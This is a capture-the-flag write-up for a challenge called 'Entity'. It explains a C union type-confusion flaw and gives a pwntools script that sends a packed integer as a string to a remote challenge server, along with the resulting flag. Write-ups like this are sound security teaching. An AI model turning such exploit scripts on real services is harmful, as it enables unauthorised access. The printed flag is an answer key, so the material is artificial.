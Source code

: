 # Entity

## Description

This Spooky Time of the year, what's better than watching a scary film on the TV? Well, a lot of things, like playing CTFs but you know what's definitely not better? Something coming out of your TV!

## Solution

A server, the binary running on it and its source code are given.

Analyzing the code, we see a storage space for values from the user. The memory area can be interpreted as a string type or an integer.
```c
static union {
    unsigned long long integer;
    char string[8];
} DataStore;
```

The application gives the following commands to the user:
- The user is presented with a menu, from which he can:
	- Set a value
		- The user chooses if he wants to store an integer or a string
		- If the user tries to input an integer and the value 13371337 the program will exit
	- Read the value
		- Allows the user to read the value stored either as an integer or a string
	- Get the flag
		- If the value of the integer stored is 13371337, it will print the flag

As we can't just sent the magic value as an integer, we have to set the value using the string input. To do that, we have to encode the number into a string. I used pwntools to handle the server connection and packing.

```python
from pwn import *

# io = process("./entity")
io = remote("161.35.36.157",32344)

io.recvuntil(b">>")
io.sendline(b"T")

io.recvuntil(b">>")
io.sendline(b"S")

io.recvuntil(b">>")
io.sendline(p64(13371337))

io.recvuntil(b">>")
io.sendline(b"C")

flag = io.recvuntil(b"}")

print(flag) # HTB{f1ght_34ch_3nt1ty_45_4_un10n}
```
